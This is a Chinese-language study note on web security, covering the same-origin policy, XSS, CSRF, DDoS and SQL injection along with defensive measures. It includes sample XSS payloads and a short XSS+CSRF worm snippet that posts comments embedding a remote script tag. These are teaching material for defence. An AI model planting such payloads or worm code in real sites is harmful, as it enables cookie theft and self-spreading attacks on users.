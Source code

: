 ## 同源策略
  + 协议不一样是不同源的
  ```
    https
    http
  ```
  + www 子域名和不带也是不同源的
  ```
    https://xx.com
    https://www.xx.com
  ```

  + 端口不一致也是不同源的

## 漏洞成因
1. 网页劫持（使用 https）
  > + dns 劫持
  > + 跳到假网站/页面/脚本被篡改，插入恶意代码

2. 缓存投毒，访问 A 站点时，加载了 B 站点的通用脚本，缓存时间非常长。再访问 B 站点时中招（使用 https）

3. 文件投毒（使用可靠源）
  > + 在非官方站点下载了某个库
  > + 官方下载地址被攻击
  > + 迅雷网络加速缓存了错误的文件
  > + 引用了不可信的第三方 dns 上的资源 

4. 客户端投毒，被安装了恶意插件，尤其是 chrome 插件（谨慎筛选插件，异站异密，二次验证）

5. 自身安全漏洞造成的猥琐绕过，产生反射性和存储型 xss

## XSS
### 成因
1. 提前闭合标签
2. 注释后续代码

```html
<img src="https://xxx.com/favicon.icon" onload=" " />
    ^             ^                   ^^        ^^ ^
    |             |                   ||        || |

    1             4                   51        61 7

1 处可以插入任意空格、回车、/
4 处可以是 http https ftp 等各种协议 url
5 处可以是双引号、单引号。也可以没有引号，在 ie 中可以是反引号
6 处可以是任意 js，能直接访问 document 作用域，字符可以被 html 转译
7 处可以不结尾，可以用 / 结尾
```

### Payload
实现 xss 攻击的恶意脚本称为 xss payload
+ 窃取用户的 `document.cookie`
+ 识别用户浏览器 `navigator.userAgent`
+ 伪造请求 `GET` `POST` 请求
+ xss 钓鱼，通过 xss 向网页上注入钓鱼链接，让用户访问假冒的网站

前面三个都是自动的
1. `<input onfocus=write(1) autofocus>`
2. `<svg onload=alert(1)>`
3. `<script>alert(1)<script/>`
4. `<a href="javascript:alert(1)">clickme</a>`

可以通过给 cookie 设置 `httpOnly` 属性来让脚本无法读取 cookie，但自己也不能用了，非根本性解决 xss

### 防护原则
1. 安全第一，不轻信任何数据，不轻信队友
  > + 慎用公共 cdn 资源
  > + 慎用第三方服务 jsonp 接口
  > + 不轻信用户输入（把所有的用户想象成黑客）
  > + 不轻信后端吐回的数据

2. 未雨绸缪
  > + html 正文：实体字符转译
  > + html 标签：实体字符转译
  > + html onxxx 事件属性：js 转译
  > + url：url 转译
  > + 用户富文本输入：后端白名单标签过滤，使用开源库，不要用正则过滤（正则过滤不干净的，太多种情况了）
  > + 推荐使用：`https://www.npmjs.com/package/sanitize-html`

  ```js
  function encode(html) {
    return html.replace(/[<>&"']/g, v => (
      {
        '<':'&lt;',
        '>':'&gt;',
        '&':'&amp;',
        "'": '&#39;',
        '"':'&quot;',
      }[v]
    ))
  }
  ```

3. demo
  ```html
    no: 不要在这里直接插入不可信数据

    <script>$no</script>
    <!-- $no -->
    <div $no=""></div>
    <div id="$no"></div>
    <$no href="..."></a>
    <a href="$no"></a>
    <input type="text" $no />
    <style>$no</style>
  ```

4. 配置安全协议头
  1. `https://imququ.com/post/web-security-and-response-header.html`


### 存储型 xss
1. 由于后端过滤不干净 + 前端展示时没有正确的编码，而造成永久性的 xss
2. 修复：后端一般不会轻易对大量已存数据再编辑。需要对新写入的数据修正存储逻辑。前端做好正确的编码转译

### 反射性（非持久性） xss
诱导用户点击恶意链接来造成一次性攻击
1. 黑客把带有恶意脚本代码参数的 URL 地址发送给用户
2. 用户点击此链接
3. 服务器端获取请求参数并直接使用，服务器反射回结果页面

  > + 反射性 xss 攻击是一次性的，必须通过用户点击链接才能发起
  > + 一些浏览器如 chrome 内置了一些 xss 过滤器，可以防止大部分反射型 xss 攻击
  > + 反射性 xss 其实就是服务器没有对恶意的用户输入进行安全处理就直接反射响应内容，导致恶意代码在浏览器中执行的一种 xss 漏掉

### 渗透测试
1. 通过模拟恶意黑客的攻击方法，来评估计算机网络系统安全的一种评估方法
2. 一般大公司都有专门的安全团队用对自己产品做渗透测试。作为公司开发人员，不要动歪脑子，如屏蔽渗透服务器 `ip/ua`，害人害己

## CSRF
其实我感觉 csrf 的主要问题就是在 cookie 身上，解决办法主要也是围绕 cookie 来解决
+ `Cross-site request forgery` 跨站请求伪造
+ 增删改操作严禁使用 `GET` 请求（幂等）
+ `POST` 等其他协议同样能被 `CSRF`
+ 敏感操作一定要判断请求来源、在 cookie 之外的地方增加加密串，和请求一同带上，甚至发送验证码给用户
+ refer 验证（但是 refer 可以伪造，比如在 node 中请求）
+ token

### xss + csrf (蠕虫)
不断传播的 xss + csrf 攻击
```js
  const attack = '<script src="http://localhost:3001/worm.js"></script>'
  $.post('/api/comments', { content: `haha, ${attack}` })
```

### DDOS 攻击
分布式拒绝服务
+ 黑客控制大量的肉鸡向受害主机发送非正常请求，导致目标主机耗尽资源不能为合法用户提供服务
+ 验证码是我们在互联网十分常见的技术之一。不得不说验证码是能够有效地防止多次重复请求的行为
+ 限制请求频率是最常见的针对 DDOS 攻击的防御措施（比如 github 就是每个小时 5000 次）
+ 设置自己业务为分布式服务，防止单点失效
+ 使用主流云系统和 CDN（云和 CDN 其自身有 DDOS 的防范作用）
+ 优化资源的使用来提高 web server 的负载能力
+ 买高防 ip

### http 劫持
+ 使用 https

### SQL 注入
+ 对查询语句中字符做正确的转译
+ 最小化数据库账户使用权限
+ 不开发不必要但权力过大的功能（比如查用户的信息，扩大到查询所有用户的信息）
+ 不要过于信任用户所输入的数据，限制输入的字符数，以及对用户输入的数据做潜在指令的检查

### 一些 xss 的小游戏网站
+ [美团关于 xss 的文字](https://tech.meituan.com/2018/09/27/fe-security.html)
+ [`alert(1) to win`](https://alf.nu/alert1)
+ [`prompt(1) to win`](http://prompt.ml/0)
+ [`XSS game`](https://xss-game.appspot.com/)